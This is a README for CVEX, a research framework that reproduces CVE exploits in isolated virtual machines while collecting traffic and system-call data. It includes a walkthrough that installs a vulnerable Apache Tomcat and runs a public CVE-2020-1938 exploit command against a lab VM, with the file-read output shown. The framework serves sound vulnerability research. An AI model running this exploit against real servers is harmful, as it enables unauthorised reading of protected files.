

# CVEX: eXecutable CVEs

What is CVEX?

CVEX is a framework for the reproducible exploitation of CVE vulnerabilities:
- Provides blueprints of pre-made exploitation setups, pre-configured with metadata collection facilities (raw traffic, HTTP/S requests, system calls/API calls).
- Uses virtualization to instantiate the blueprint and automatically execute the attack, supporting live analysis of exploitation.
- Separates infrastructure from CVE-related configuration allowing for reuse of blueprints.
- Incentivizes contributors to share reproducible exploits.

Tech stack:
- Virtualization: Vagrant
- Installation and configuration: Ansible
- Network traffic collection: tcpdump
- HTTPS collection: mitmproxy
- Linux syscall collection: strace
- Windows API collection: Process Monitor

## Install

CVEX has been tested on Ubuntu 24.04, 22.04, and 20.04.

Create virtual environment (optional):
```
python3 -m venv venv
source venv/bin/activate
```

Install CVEX:
```
~/CVEX$ sudo apt update
~/CVEX$ sudo apt install git-lfs -y
~/CVEX$ git lfs pull
~/CVEX$ pip install -e .
```

Install Vagrant:
```
wget https://releases.hashicorp.com/vagrant/2.4.1/vagrant-2.4.1-1.x86_64.rpm
sudo apt install alien
sudo alien -i vagrant-2.4.1-1.x86_64.rpm
```

**Do not use** `apt install` to install Vagrant, because it installs an old version of Vagrant.

Install Ansible:
```
sudo apt-add-repository ppa:ansible/ansible
sudo apt update
sudo apt install ansible
```

Install VirtualBox (**Ubuntu 22.04**):
```
wget https://download.virtualbox.org/virtualbox/7.0.20/virtualbox-7.0_7.0.20-163906~Ubuntu~jammy_amd64.deb
sudo dpkg -i virtualbox-7.0_7.0.20-163906~Ubuntu~jammy_amd64.deb
wget https://download.virtualbox.org/virtualbox/7.0.20/Oracle_VM_VirtualBox_Extension_Pack-7.0.20.vbox-extpack
sudo vboxmanage extpack install Oracle_VM_VirtualBox_Extension_Pack-7.0.20.vbox-extpack
```
Refer to the VirtualBox [download](https://www.oracle.com/virtualization/technologies/vm/downloads/virtualbox-downloads.html) page to find the appropriate package of VirtualBox that suits your OS. If dpkg shows errors during installation, run this command to fix them:
```
sudo apt --fix-broken install
```

While in theory Vagrant should work with any VM provider, CVEX was tested only with VirtualBox.

## Run

Ensure that you have at least 22 GB of free disk space and 8 GB of RAM to run the PoC CVE-0000-00001. Execute it as follows:
```
~/CVEX$ cvex records/CVE-0000-00001
```

CVEX comes with a set of PoCs:
- [CVE-0000-00000](records/CVE-0000-00000): curl, executed on Windows, downloads a web-page from ngix, running on Ubuntu
- [CVE-0000-00001](records/CVE-0000-00001): curl, executed on Ubuntu, downloads a web-page from ngix, running on another Ubuntu
- [CVE-0000-00002](records/CVE-0000-00002): curl, executed on Ubuntu, downloads a web-page from ngix, running on Windows
- [CVE-0000-00003](records/CVE-0000-00003): curl, executed on Windows, downloads a web-page from ngix, running on another Windows

## Debug

1. Re-start CVEX.
2. Restart CVEX with the `-v` parameter (verbose logging).
3. Connect to the VM via SSH with the help of `vagrant ssh` command.
<details>
<summary>How to use "vagrant ssh"</summary>

```
$ cd ~/.cvex/bento_ubuntu-22.04/202404.23.0/1/

~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant snapshot restore CVE-2021-44228/ubuntu1
==> default: Restoring the snapshot 'CVE-2021-44228/ubuntu1'...
==> default: Checking if box 'bento/ubuntu-22.04' version '202404.23.0' is up to date...
==> default: Resuming suspended VM...
==> default: Booting VM...
==> default: Waiting for machine to boot. This may take a few minutes...
    default: SSH address: 127.0.0.1:2201
    default: SSH username: vagrant
    default: SSH auth method: private key
==> default: Machine booted and ready!
==> default: Machine already provisioned. Run `vagrant provision` or use the `--provision`
==> default: flag to force provisioning. Provisioners marked to run always will still run.

~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant ssh
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-102-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Thu Oct 10 06:33:32 AM UTC 2024

  System load:  1.0625             Users logged in:          0
  Usage of /:   15.2% of 30.34GB   IPv4 address for docker0: 172.17.0.1
  Memory usage: 22%                IPv4 address for eth0:    10.0.2.15
  Swap usage:   0%                 IPv4 address for eth1:    192.168.56.4
  Processes:    155


This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento
Last login: Wed Oct  9 13:29:41 2024 from 10.0.2.2

vagrant@ubuntu:~$ 
```

</details>

Use VirtualBox GUI to manage VMs and snapshots.

## Create your own

<details>

<summary>Expand to see how to create your own CVEX record</summary>


Clone https://github.com/ucsb-seclab/CVEX-records.

Choose the right name for your CVEX record and create a new subfolder with this name inside `CVEX-records`. Let's imagine that our goal is to reproduce CVE-2020-1938 (Apache Tomcat AJP Arbitrary File Read/Include Vulnerability). Obvious choice for the folder name would be `CVE-2020-1938`.

Let's use the [ubuntu2204-ubuntu2204](blueprints/ubuntu2204-ubuntu2204) blueprint. Create the simplest `CVEX-records/CVE-2020-1938/cvex.yml`:
```
blueprint: ubuntu2204-ubuntu2204
```

Run CVEX:
```
~/CVEX-records$ cvex CVE-2020-1938
```

CVEX will create the router VM and two Ubuntu 22.04 VMs:
```
2024-10-23 14:02:12,627 - INFO - [router] Initializing a new VM router at /home/john/.cvex/router...
2024-10-23 14:02:13,733 - INFO - [router] Starting the VM router...
2024-10-23 14:04:09,541 - INFO - [router] Creating snapshot 'clean' for VM router (192.168.56.2)...
2024-10-23 14:04:24,545 - INFO - [router] Retrieving SSH configuration of router...
2024-10-23 14:04:24,545 - INFO - [router] Inventory /home/john/.cvex/router/inventory.ini has been created
2024-10-23 14:04:24,545 - INFO - [router] Executing Ansible playbook /ll/sources/CVEX/ansible/router.yml...
2024-10-23 14:04:25,440 - INFO - [router] 
2024-10-23 14:04:25,440 - INFO - [router] PLAY [Router] ******************************************************************
2024-10-23 14:04:25,440 - INFO - [router] 
2024-10-23 14:04:25,440 - INFO - [router] TASK [Gathering Facts] *********************************************************
2024-10-23 14:04:29,337 - INFO - [router] [WARNING]: Platform linux on host router is using the discovered Python
2024-10-23 14:04:29,337 - INFO - [router] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 14:04:29,337 - INFO - [router] interpreter could change the meaning of that path. See
2024-10-23 14:04:29,337 - INFO - [router] https://docs.ansible.com/ansible-
2024-10-23 14:04:29,337 - INFO - [router] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 14:04:29,370 - INFO - [router] ok: [router]
2024-10-23 14:04:29,371 - INFO - [router] 
2024-10-23 14:04:29,371 - INFO - [router] TASK [Pull mitmproxy-10.3.1-linux-x86_64.tar.gz] *******************************
2024-10-23 14:04:50,650 - INFO - [router] changed: [router]
2024-10-23 14:04:50,650 - INFO - [router] 
2024-10-23 14:04:50,650 - INFO - [router] TASK [Run mitmdump] ************************************************************
2024-10-23 14:04:51,642 - INFO - [router] changed: [router]
2024-10-23 14:04:51,643 - INFO - [router] 
2024-10-23 14:04:51,643 - INFO - [router] TASK [Wait for ~/.mitmproxy] ***************************************************
2024-10-23 14:04:56,908 - INFO - [router] ok: [router]
2024-10-23 14:04:56,908 - INFO - [router] 
2024-10-23 14:04:56,908 - INFO - [router] TASK [Kill mitmdump] ***********************************************************
2024-10-23 14:04:57,573 - INFO - [router] changed: [router]
2024-10-23 14:04:57,573 - INFO - [router] 
2024-10-23 14:04:57,574 - INFO - [router] TASK [Copy certindex] **********************************************************
2024-10-23 14:04:59,498 - INFO - [router] changed: [router]
2024-10-23 14:04:59,498 - INFO - [router] 
2024-10-23 14:04:59,498 - INFO - [router] TASK [Copy default.cfg] ********************************************************
2024-10-23 14:05:01,188 - INFO - [router] changed: [router]
2024-10-23 14:05:01,188 - INFO - [router] 
2024-10-23 14:05:01,189 - INFO - [router] TASK [Generate CRL] ************************************************************
2024-10-23 14:05:01,826 - INFO - [router] changed: [router]
2024-10-23 14:05:01,826 - INFO - [router] 
2024-10-23 14:05:01,826 - INFO - [router] TASK [Convert CRL from PEM to DER] *********************************************
2024-10-23 14:05:02,430 - INFO - [router] changed: [router]
2024-10-23 14:05:02,431 - INFO - [router] 
2024-10-23 14:05:02,431 - INFO - [router] TASK [Fetch root.crl] **********************************************************
2024-10-23 14:05:03,198 - INFO - [router] changed: [router]
2024-10-23 14:05:03,198 - INFO - [router] 
2024-10-23 14:05:03,198 - INFO - [router] TASK [Fetch mitmproxy-ca-cert.cer] *********************************************
2024-10-23 14:05:03,933 - INFO - [router] changed: [router]
2024-10-23 14:05:03,933 - INFO - [router] 
2024-10-23 14:05:03,933 - INFO - [router] PLAY RECAP *********************************************************************
2024-10-23 14:05:03,933 - INFO - [router] router                     : ok=11   changed=9    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 14:05:03,933 - INFO - [router] 
2024-10-23 14:05:04,072 - INFO - [router] Creating snapshot 'router' for VM router (192.168.56.2)...
2024-10-23 14:05:14,799 - INFO - [ubuntu1] Initializing a new VM ubuntu1 at /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/1...
2024-10-23 14:05:17,209 - INFO - [ubuntu1] Starting the VM ubuntu1...
2024-10-23 14:07:26,896 - INFO - [ubuntu1] Creating snapshot 'clean' for VM ubuntu1 (192.168.56.3)...
2024-10-23 14:07:40,427 - INFO - [ubuntu1] Retrieving SSH configuration of ubuntu1...
2024-10-23 14:07:40,428 - INFO - [ubuntu1] Inventory /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/1/inventory.ini has been created
2024-10-23 14:07:40,428 - INFO - [ubuntu1] Executing Ansible playbook /ll/sources/CVEX/ansible/linux.yml...
2024-10-23 14:07:41,369 - INFO - [ubuntu1] 
2024-10-23 14:07:41,369 - INFO - [ubuntu1] PLAY [Linux] *******************************************************************
2024-10-23 14:07:41,369 - INFO - [ubuntu1] 
2024-10-23 14:07:41,369 - INFO - [ubuntu1] TASK [Gathering Facts] *********************************************************
2024-10-23 14:07:44,182 - INFO - [ubuntu1] [WARNING]: Platform linux on host ubuntu1 is using the discovered Python
2024-10-23 14:07:44,182 - INFO - [ubuntu1] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 14:07:44,182 - INFO - [ubuntu1] interpreter could change the meaning of that path. See
2024-10-23 14:07:44,182 - INFO - [ubuntu1] https://docs.ansible.com/ansible-
2024-10-23 14:07:44,182 - INFO - [ubuntu1] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 14:07:44,201 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 14:07:44,201 - INFO - [ubuntu1] 
2024-10-23 14:07:44,201 - INFO - [ubuntu1] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-10-23 14:07:45,707 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 14:07:45,707 - INFO - [ubuntu1] 
2024-10-23 14:07:45,707 - INFO - [ubuntu1] TASK [Run update-ca-certificates] **********************************************
2024-10-23 14:07:50,772 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 14:07:50,772 - INFO - [ubuntu1] 
2024-10-23 14:07:50,772 - INFO - [ubuntu1] PLAY RECAP *********************************************************************
2024-10-23 14:07:50,773 - INFO - [ubuntu1] ubuntu1                    : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 14:07:50,773 - INFO - [ubuntu1] 
2024-10-23 14:07:50,905 - INFO - [ubuntu1] Creating snapshot 'CVE-2020-1938/ubuntu1' for VM ubuntu1 (192.168.56.3)...
2024-10-23 14:07:59,288 - INFO - [ubuntu2] Initializing a new VM ubuntu2 at /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/2...
2024-10-23 14:08:00,935 - INFO - [ubuntu2] Starting the VM ubuntu2...
2024-10-23 14:09:55,140 - INFO - [ubuntu2] Creating snapshot 'clean' for VM ubuntu2 (192.168.56.4)...
2024-10-23 14:10:09,014 - INFO - [ubuntu2] Retrieving SSH configuration of ubuntu2...
2024-10-23 14:10:09,014 - INFO - [ubuntu2] Inventory /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/2/inventory.ini has been created
2024-10-23 14:10:09,014 - INFO - [ubuntu2] Executing Ansible playbook /ll/sources/CVEX/ansible/linux.yml...
2024-10-23 14:10:09,813 - INFO - [ubuntu2] 
2024-10-23 14:10:09,814 - INFO - [ubuntu2] PLAY [Linux] *******************************************************************
2024-10-23 14:10:09,814 - INFO - [ubuntu2] 
2024-10-23 14:10:09,814 - INFO - [ubuntu2] TASK [Gathering Facts] *********************************************************
2024-10-23 14:10:12,545 - INFO - [ubuntu2] [WARNING]: Platform linux on host ubuntu2 is using the discovered Python
2024-10-23 14:10:12,545 - INFO - [ubuntu2] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 14:10:12,545 - INFO - [ubuntu2] interpreter could change the meaning of that path. See
2024-10-23 14:10:12,545 - INFO - [ubuntu2] https://docs.ansible.com/ansible-
2024-10-23 14:10:12,545 - INFO - [ubuntu2] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 14:10:12,566 - INFO - [ubuntu2] ok: [ubuntu2]
2024-10-23 14:10:12,566 - INFO - [ubuntu2] 
2024-10-23 14:10:12,567 - INFO - [ubuntu2] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-10-23 14:10:14,807 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 14:10:14,807 - INFO - [ubuntu2] 
2024-10-23 14:10:14,807 - INFO - [ubuntu2] TASK [Run update-ca-certificates] **********************************************
2024-10-23 14:10:19,573 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 14:10:19,573 - INFO - [ubuntu2] 
2024-10-23 14:10:19,573 - INFO - [ubuntu2] PLAY RECAP *********************************************************************
2024-10-23 14:10:19,574 - INFO - [ubuntu2] ubuntu2                    : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 14:10:19,574 - INFO - [ubuntu2] 
2024-10-23 14:10:19,717 - INFO - [ubuntu2] Creating snapshot 'CVE-2020-1938/ubuntu2' for VM ubuntu2 (192.168.56.4)...
2024-10-23 14:10:28,249 - INFO - [router] Executing 'ls /etc/netplan'...
2024-10-23 14:10:30,157 - INFO - [router] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 14:10:30,223 - INFO - [router] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 14:10:30,243 - INFO - [router] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 14:10:30,259 - INFO - [router] Uploading /tmp/cvex.yaml...
2024-10-23 14:10:30,274 - INFO - [router] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 14:10:30,309 - INFO - [router] Executing 'sudo ip link set eth1 up'...
2024-10-23 14:10:30,393 - INFO - [router] Executing 'sudo netplan apply'...
2024-10-23 14:10:32,602 - INFO - [router] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 14:10:32,686 - INFO - [router] Executing 'sudo systemctl restart ufw'...
2024-10-23 14:10:32,797 - INFO - [ubuntu1] Executing 'ls /etc/netplan'...
2024-10-23 14:10:34,691 - INFO - [ubuntu1] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 14:10:34,768 - INFO - [ubuntu1] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 14:10:34,794 - INFO - [ubuntu1] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 14:10:34,821 - INFO - [ubuntu1] Uploading /tmp/cvex.yaml...
2024-10-23 14:10:34,844 - INFO - [ubuntu1] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 14:10:34,890 - INFO - [ubuntu1] Executing 'sudo ip link set eth1 up'...
2024-10-23 14:10:34,980 - INFO - [ubuntu1] Executing 'sudo netplan apply'...
2024-10-23 14:10:37,394 - INFO - [ubuntu1] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 14:10:37,470 - INFO - [ubuntu1] Executing 'sudo systemctl restart ufw'...
2024-10-23 14:10:37,573 - INFO - [ubuntu1] Downloading /etc/hosts...
2024-10-23 14:10:37,627 - INFO - [ubuntu1] Uploading /tmp/hosts...
2024-10-23 14:10:37,643 - INFO - [ubuntu1] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-10-23 14:10:37,669 - INFO - [ubuntu2] Executing 'ls /etc/netplan'...
2024-10-23 14:10:39,056 - INFO - [ubuntu2] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 14:10:39,111 - INFO - [ubuntu2] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 14:10:39,132 - INFO - [ubuntu2] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 14:10:39,156 - INFO - [ubuntu2] Uploading /tmp/cvex.yaml...
2024-10-23 14:10:39,175 - INFO - [ubuntu2] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 14:10:39,213 - INFO - [ubuntu2] Executing 'sudo ip link set eth1 up'...
2024-10-23 14:10:39,294 - INFO - [ubuntu2] Executing 'sudo netplan apply'...
2024-10-23 14:10:41,243 - INFO - [ubuntu2] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 14:10:41,320 - INFO - [ubuntu2] Executing 'sudo systemctl restart ufw'...
2024-10-23 14:10:41,437 - INFO - [ubuntu2] Downloading /etc/hosts...
2024-10-23 14:10:41,481 - INFO - [ubuntu2] Uploading /tmp/hosts...
2024-10-23 14:10:41,491 - INFO - [ubuntu2] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-10-23 14:10:41,530 - INFO - [router] Executing 'pkill mitmdump'...
2024-10-23 14:10:41,569 - INFO - [router] Executing 'sudo pkill tcpdump'...
2024-10-23 14:10:41,644 - INFO - [router] Executing 'rm -rf /tmp/cvex'...
2024-10-23 14:10:41,704 - INFO - [router] Executing 'mkdir /tmp/cvex'...
2024-10-23 14:10:41,765 - INFO - [router] Executing 'sudo sysctl net.ipv4.ip_forward=1'...
2024-10-23 14:10:41,852 - INFO - [router] Executing 'sudo tcpdump -i eth1 -U -w /tmp/cvex/router_raw.pcap'...
2024-10-23 14:10:41,888 - INFO - [router] Executing 'sudo iptables -t nat -I PREROUTING --src 0/0 --dst 0/0 -p tcp --dport 443 -j REDIRECT --to-ports 8080'...
2024-10-23 14:10:42,179 - INFO - [router] Executing 'mitmdump --mode transparent -k --set block_global=false -w /tmp/cvex/router_mitmdump.stream'...
2024-10-23 14:10:45,230 - INFO - [router] Wait for 5 seconds to let tcpdump and mitmdump flush logs on disk...
2024-10-23 14:10:50,230 - INFO - [router] Downloading /tmp/cvex/router_raw.pcap...
2024-10-23 14:10:50,249 - INFO - [router] Downloading /tmp/cvex/router_mitmdump.stream...
2024-10-23 14:10:50,259 - INFO - [router] Stopping VM router...
2024-10-23 14:11:04,799 - INFO - [ubuntu1] Stopping VM ubuntu1...
2024-10-23 14:11:19,848 - INFO - [ubuntu2] Stopping VM ubuntu2...
```

You will also see them in the VirtualBox GUI:


Whenever you need to experiment with the VMs, restore snapshots with `vagrant snapshot restore`:
```
$ cd ~/.cvex/bento_ubuntu-22.04/202404.23.0/1/

~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant snapshot restore CVE-2020-1938/ubuntu1
==> default: Forcing shutdown of VM...
==> default: Restoring the snapshot 'CVE-2020-1938/ubuntu1'...
==> default: Checking if box 'bento/ubuntu-22.04' version '202404.23.0' is up to date...
==> default: Resuming suspended VM...
==> default: Booting VM...
==> default: Waiting for machine to boot. This may take a few minutes...
    default: SSH address: 127.0.0.1:2200
    default: SSH username: vagrant
    default: SSH auth method: private key
==> default: Machine booted and ready!
==> default: Machine already provisioned. Run `vagrant provision` or use the `--provision`
==> default: flag to force provisioning. Provisioners marked to run always will still run.

$ cd ~/.cvex/bento_ubuntu-22.04/202404.23.0/2/

~/.cvex/bento_ubuntu-22.04/202404.23.0/2$ vagrant snapshot restore CVE-2020-1938/ubuntu2
==> default: Forcing shutdown of VM...
==> default: Restoring the snapshot 'CVE-2020-1938/ubuntu2'...
==> default: Checking if box 'bento/ubuntu-22.04' version '202404.23.0' is up to date...
==> default: Resuming suspended VM...
==> default: Booting VM...
==> default: Waiting for machine to boot. This may take a few minutes...
    default: SSH address: 127.0.0.1:2201
    default: SSH username: vagrant
    default: SSH auth method: private key
==> default: Machine booted and ready!
==> default: Machine already provisioned. Run `vagrant provision` or use the `--provision`
==> default: flag to force provisioning. Provisioners marked to run always will still run.
```

To perform administrative tasks, connect to the needed VM over SSH with `vagrant ssh`:
```
~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant ssh
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-102-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Wed Oct 23 12:20:56 PM UTC 2024

  System load:  0.14208984375      Processes:             142
  Usage of /:   12.0% of 30.34GB   Users logged in:       0
  Memory usage: 11%                IPv4 address for eth0: 10.0.2.15
  Swap usage:   0%                 IPv4 address for eth1: 192.168.56.3


This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento
Last login: Wed Oct 23 12:07:40 2024 from 10.0.2.2

vagrant@ubuntu1:~$
```

The first step would be to install the vulnerable Apache Tomcat 9.0.30 on `ubuntu1`. You need to find the binaries and build the Ansible playbook `ubuntu1.yml` that installs this service. Create the following structure of the CVEX record folder:
```
~/CVEX-records$ tree CVE-2020-1938

CVE-2020-1938
├── cvex.yml
├── data
│   └── apache-tomcat-9.0.30.tar.gz
└── ubuntu1.yml
```

Now run the Ansible playbook on `ubuntu1` to see if it works:
```
~/CVEX-records$ ansible-playbook -i ~/.cvex/bento_ubuntu-22.04/202404.23.0/1/inventory.ini CVE-2020-1938/ubuntu1.yml 

PLAY [Install Apache Tomcat vulnerable to AJP Arbitrary File Read/Include（CVE-2020-1938）] ***************************************************************************************************************

TASK [Gathering Facts] ************************************************************************************************************************************************************************************
[WARNING]: Platform linux on host ubuntu1 is using the discovered Python interpreter at /usr/bin/python3.10, but future installation of another Python interpreter could change the meaning of that path.
See https://docs.ansible.com/ansible-core/2.17/reference_appendices/interpreter_discovery.html for more information.
ok: [ubuntu1]

TASK [Update apt cache] ***********************************************************************************************************************************************************************************
ok: [ubuntu1]

TASK [Install dependencies (Java and utilities)] **********************************************************************************************************************************************************
ok: [ubuntu1] => (item=curl)
ok: [ubuntu1] => (item=wget)
ok: [ubuntu1] => (item=tar)
changed: [ubuntu1] => (item=openjdk-11-jre-headless)

TASK [Create tomcat group] ********************************************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Create tomcat user] *********************************************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Create installation directory for Tomcat] ***********************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Extract apache-tomcat-9.0.30.tar.gz] ****************************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Create symbolic link for Tomcat installation] *******************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Change ownership of the Tomcat directory] ***********************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Set environment variables for Tomcat] ***************************************************************************************************************************************************************
changed: [ubuntu1] => (item=CATALINA_HOME=/opt/tomcat/latest)
changed: [ubuntu1] => (item=JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64)

TASK [Create systemd service for Tomcat] ******************************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Reload systemd daemon] ******************************************************************************************************************************************************************************
ok: [ubuntu1]

TASK [Start and enable Apache Tomcat] *********************************************************************************************************************************************************************
changed: [ubuntu1]

PLAY RECAP ************************************************************************************************************************************************************************************************
ubuntu1                    : ok=13   changed=10   unreachable=0    failed=0    skipped=0    rescued=0    ignored=0   

```

Voilà, Apache Tomcat 9.0.30 has been installed on `ubuntu1`. Update `cvex.yml`:
```
blueprint: ubuntu2204-ubuntu2204
ubuntu1:
  playbook: ubuntu1.yml
```

Next step is to run the exploit on `ubuntu2`. Let's use this exploit: https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi/. In the same manner, the Ansible playbook `ubuntu2.yml` was created to install the `CNVD-2020-10487-Tomcat-Ajp-lfi.py` exploit, and the file itself was put to the `data` folder. The updated tree of the CVEX record folder should look like this:
```
~/CVEX-records$ tree CVE-2020-1938

CVE-2020-1938
├── cvex.yml
├── data
│   ├── apache-tomcat-9.0.30.tar.gz
│   └── CNVD-2020-10487-Tomcat-Ajp-lfi.py
├── ubuntu1.yml
└── ubuntu2.yml
```

Now run the Ansible playbook on `ubuntu2` to see if it works:
```
~/CVEX-records$ ansible-playbook -i ~/.cvex/bento_ubuntu-22.04/202404.23.0/2/inventory.ini CVE-2020-1938/ubuntu2.yml 

PLAY [Install the exploit for Apache Tomcat AJP Arbitrary File Read/Include Vulnerability（CVE-2020-1938）] ***********************************************************************************************

TASK [Gathering Facts] ************************************************************************************************************************************************************************************
[WARNING]: Platform linux on host ubuntu2 is using the discovered Python interpreter at /usr/bin/python3.10, but future installation of another Python interpreter could change the meaning of that path.
See https://docs.ansible.com/ansible-core/2.17/reference_appendices/interpreter_discovery.html for more information.
ok: [ubuntu2]

TASK [Update apt package index] ***************************************************************************************************************************************************************************
ok: [ubuntu2]

TASK [Install packages] ***********************************************************************************************************************************************************************************
changed: [ubuntu2]

TASK [Create /opt/exploit] ********************************************************************************************************************************************************************************
changed: [ubuntu2]

TASK [Copy CNVD-2020-10487-Tomcat-Ajp-lfi.py to /opt/exploit] *********************************************************************************************************************************************
changed: [ubuntu2]

PLAY RECAP ************************************************************************************************************************************************************************************************
ubuntu2                    : ok=5    changed=3    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0 
```

Great, the exploit has been copied to `ubuntu2`. Update `cvex.yml`:
```
blueprint: ubuntu2204-ubuntu2204
ubuntu1:
  playbook: ubuntu1.yml
ubuntu2:
  playbook: ubuntu2.yml
```

Let's see if the exploit works as expected. Connect to `ubuntu2` over SSH, and then run the exploit (knowing that `192.168.56.3` is the IP address of `ubuntu1`):
```
vagrant@ubuntu2:~$ python2 /opt/exploit/CNVD-2020-10487-Tomcat-Ajp-lfi.py 192.168.56.3 -p 8009 -f WEB-INF/web.xml

Getting resource at ajp13://192.168.56.3:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
```

Great, the vulnerability was exploited successfully: we were able to read a protected file! Now add the `command` parameter to the `ubuntu2` section of `cvex.yml`:
```
blueprint: ubuntu2204-ubuntu2204
ubuntu1:
  playbook: ubuntu1.yml
ubuntu2:
  playbook: ubuntu2.yml
  command: "python2 /opt/exploit/CNVD-2020-10487-Tomcat-Ajp-lfi.py %ubuntu1% -p 8009 -f WEB-INF/web.xml"
```

Run it once again with the `-n` parameter that forces CVEX to delete previously created snapshots:
```
~/CVEX-records$ cvex CVE-2020-1938 -n

2024-10-23 15:46:56,016 - INFO - [router] Retrieving status of router...
2024-10-23 15:46:59,771 - INFO - [router] Retrieving snapshot list of router...
2024-10-23 15:47:02,330 - INFO - [router] Restoring VM router (192.168.56.2) to snapshot 'router'...
2024-10-23 15:47:32,103 - INFO - [ubuntu1] Looking for a VM with CVE-2020-1938/ubuntu1 snapshot...
2024-10-23 15:47:37,717 - INFO - [ubuntu1] Retrieving status of ubuntu1...
2024-10-23 15:47:42,577 - INFO - [ubuntu1] Retrieving snapshot list of ubuntu1...
